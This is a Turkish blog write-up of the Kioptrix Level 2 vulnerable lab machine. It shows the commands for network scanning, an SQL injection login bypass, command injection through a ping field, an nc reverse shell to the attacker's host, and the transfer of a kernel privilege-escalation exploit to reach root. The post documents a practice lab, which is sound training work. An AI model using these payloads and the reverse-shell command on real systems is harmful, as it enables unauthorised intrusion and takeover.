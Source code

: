 ```yaml
---
layout: post
title: Kioptrix Level 2 Writeup
categories: tr
---
```






&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu yazımda daha önce çözümünü yaptığım Kioptrix zafiyetli makinesinin ikinci aşamasının(`Level II`) çözümünü anlatacağım. Öncelikle sanal makinenin ağ üzerinde aldığı ip adresini bulmak için `NMAP` ile genel ağ taraması yaptım.

	nmap -sV -T4 192.168.1.0/24

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu tarama sonucunda ip adresini 192.168.1.40 olarak görüyoruz. Şimdi bu makine için açık port taraması yapacağız. 

	nmap -sV -T4 192.168.1.40 --open



<img src="/img/kioptrix2/hedef-tarama.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Buradaki servisleri kullanarak farklı yollarla makineye sızma girişiminde bulunabiliriz. Açık olan `http` servisi benim dikkatimi çekti ve buradan nereye gidebileceğimi görmek için tarayıcıma makinenin ip adresini girerek yoluma devame ediyorum. 

<img src="/img/kioptrix2/sqli.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Böyle bir ekran beni karşılıyor. Burası çok net bir şekilde `SQLi` açığı bulunduran bir login ekranı. Her zaman kullandığım inject denemesi olarak hem Username hem Password için 'or 1 or' deniyorum ve farklı bir sayfaya yönlendiriliyorum.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burası daha önce çözümünü yaptığım `DVWA Code Injection` bölümüne benziyor. Aynı mantıkla deneme amaçlı 127.0.0.1 && echo "CTRL" yazıp gönderiyorum ve aşağıda yazan "CTRL" yazısından code injection yapabildiğimi anlıyorum.

<img src="/img/kioptrix2/code-injection.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu aşamadan sonra nasıl bir code yollayıp hangi veriye ulaşsam ne işime yarar diye düşünmeye başladım. `nc` aracının içerideki yerini bulup servis üzerinde bir reverse shell başlatarak içeri sızmayı planladım. Sonra da gerekli exploiti bulup içeride root olmaya çalışacağım. nc aracının içerideki yerini bulmak için 127.0.0.1 && find / -name nc komutunu içeriye yolluyorum.

<img src="/img/kioptrix2/find-nc.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tool'un yerini de bulduktan sonra `127.0.0.1  && /usr/local/bin/nc 192.168.1.38 7777 -e '/bin/bash'` komutunu yollayarak reverse shell başlattım. Aynı zamanda kendi makinemden da nc ile dinleme açtım. Kodu yolladığımda bağlantı sağlandı.

<img src="/img/kioptrix2/reverse-shell.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Diğer çözümdeki gibi dizinlerde dolanarak /var/mail/root dosyasına geldim ve bu uyarıyla karşılaştım.
`"root: writable, regular file, no read permission".` 

<br>
<img src="/img/kioptrix2/permission-denied.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Apache kullanıcısı olduğum için gerekli izinlerim yok. Artık içeride root olmam gerekiyor. Root olmak için içeride bir exploit çalıştıracağım. Uygun exploit için `kernel` bilgisine bakıyorum. 

	uname -a 

<img src="/img/kioptrix2/uname.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sistemde yüklü çekirdek versiyonu 2.6.9 olarak görünüyor. Buna uygun olacak kodu exploit-db' de aratarak buldum. Sonra yine `nc` aracı ile karşı tarafa transfer ettim.

	Hedef için : /usr/local/bin/nc 192.168.1.38 8888 > 9545.c
	Kendi makinem için : nc -lvp 8888 < 9545.c

komutlarını girdim.


<img src="/img/kioptrix2/file-transfer.png">


<br><br>Sonra kodu çalıştırıp içeride root olmayı başardım.<br><br>

<img src="/img/kioptrix2/root.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Böylelikle Kioptrix Level II makinesininde çözümünü tamamlamış olduk. Özetle gerçekleştirdiğim aşamalar :

 1-  Port taraması sonucu açık olan http apache servisine giderek burada code injection gerçekleştirdim.<br>
 2-  Bu code injection sayesinde servise reverse shell başlattım.<br>
 3-  Reverse shell sayesinde karşıya exploit kodunu transfer ettim. <br>
 4-  Exploit kodunu çalıştırıp sistemde root yetkisi elde ettim.<br>



















